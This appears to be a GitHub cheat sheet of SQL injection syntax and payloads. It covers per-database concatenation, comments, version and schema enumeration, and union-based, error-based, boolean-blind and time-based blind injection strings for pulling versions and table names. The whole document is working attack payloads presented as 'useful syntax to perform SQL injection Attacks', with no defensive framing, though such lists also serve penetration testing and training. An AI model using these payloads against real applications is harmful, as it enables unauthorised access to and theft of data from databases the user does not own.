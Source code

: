 <h1>SQL Injection Cheat Sheets</h1>
<p>This contains examples of useful syntax to perform SQL injection Attacks.</p>

<a href="https://github.com/kaung-khant-zaw223/cheat-sheets/blob/main/SQL_Injection_ByPass_Payloads.md">SQL Injection Bypass Payloads</a>

<h2>String Concatenation</h2>
<p><b>Oracle      :</b> 'foo'||'bar'</p>
<p><b>Microsoft   :</b> 'foo'+'bar'</p>
<p><b>PostgreSQL:</b> 'foo'||'bar' </p>
<p><b>MySQL:</b> 'foo' 'bar'</p>

<h2>Substring</h2>
<p><b>Oracle:</b> SUBSTR('foobar', 4, 2)</p>
<p><b>Microsoft:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>PostgreSQL:</b> SUBSTRING('foobar', 4, 2)</p>
<p><b>MySQL:</b> SUBSTRING('foobar', 4, 2)</p>

<h2>Comments</h2>
<p><b>Oracle:</b> --comment</p>
<p><b>Microsoft:</b> --comment (or) /*comment*/ </p>
<p><b>PostgreSQL:</b> --comment (or) /*comment*/ </p>
<p><b>MySQL:</b> #comment (or) --comment (or) /*comment*/</p>

<h2>Database Version</h2>
<p><b>Oracle:</b> SELECT banner FROM v$version (or) SELECT version FROM v$instance</p>
<p><b>Microsoft:</b> SELECT @@version</p>
<p><b>PostgreSQL: </b> SELECT version()</p>
<p><b>MySQL:</b> SELECT @@version </p>

<h2>Database Contents</h2>
<p><b>Oracle:</b> SELECT * FROM all_tables (or) SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>Microsoft:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>PostgreSQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>
<p><b>MySQL:</b> SELECT * FROM information_schema.tables (or) SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' </p>

<h2>Conditional Errors</h2>
<p><b>Oracle:</b> SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual</p>
<p><b>Microsoft:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END</p>
<p><b>PostgreSQL:</b>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END</p>
<p><b>MySQL:</b>SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')</p>

<h2>UNION BASED</h2>
<p>order by </p>
<p>union select</p>
<p>group_concat(table_name) from information_schema.tables where table_schema=database()</p>
<p>group_concat(column_name) from information_schema.columns where table_name='table_name'</p>
<p>group_concat(data) from table_name</p>

<h2>ERROR BASED</h2>
<b>Intro</b><br> 

SELECT count(*) from information_schema.tables;<br>
SELECT rand();<br>
SELECT floor(1.5);<br>
select 1 from y;<br>
select count(*),username from users group by username;<br>

<b>Variable</b><br>
SELECT count(*),CONCAT((SELECT @@version),0x3a,rand()) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>
######
SELECT count(*),CONCAT((SELECT @@version),0x3a,floor(rand()*2)) x FROM information_schema.tables group by x;<br>
SELECT @x;<br>

<b> Version</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y)<br>

<b>Table</b><br>
AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (table_name) from information_schema.tables where table_schema=database() limit 0,1),0x3a,FLOOR(RAND(0)*2)) x<br> FROM information_schema.tables GROUP BY x) y)<br>
<h2>BLind</h2><br>
<a href="https://owasp.org/www-community/attacks/Blind_SQL_Injection">https://owasp.org/www-community/attacks/Blind_SQL_Injection</a><br>
<a href="https://www.sqlinjection.net/time-based/">https://www.sqlinjection.net/time-based/</a><br>
<h2>Boolean Based Blind</h2>
<b>Intro</b><br>
select substr('abcde',1,1);<br>
select ascii('a');<br>
select ascii(substr(@@version,1,1));<br>

<b>True or False</b><br>
select ascii(substr(@@version,1,1)) < 50;<br>
select ascii(substr(@@version,1,1)) < 40;<br>
select ascii(substr(@@version,1,1)) = 49;<br>

<b>Testing</b><br>
1 and 1=1 -> True<br>
1 and 1=2 -> False<br>

<b>Version</b><br>
and ascii(substr(@@version,1,1)) = 49 -> First Character<br>
and ascii(substring(version(),2,1)) = 48 -> Second Character<br>

<b>Table</b><br>
and ascii(substring((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100<br>

<h2>Time Based Blind</h2>
<b>Intro</b>
SELECT IF(500<1000, "YES", "NO");<br>
sleep(5);<br>
and if(500<1000, sleep(5), NULL) -> Sleep<br>
and if(500>1000, sleep(5), NULL) -> Do Not Sleep<br>

<b>Version</b><br>
and if(ascii(substr(version(),1,1)) = 49, sleep(5), NULL)<br>

<b>Table</b><br>
and if(ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database()),1,1)) > 100, sleep(5), NULL)<br>
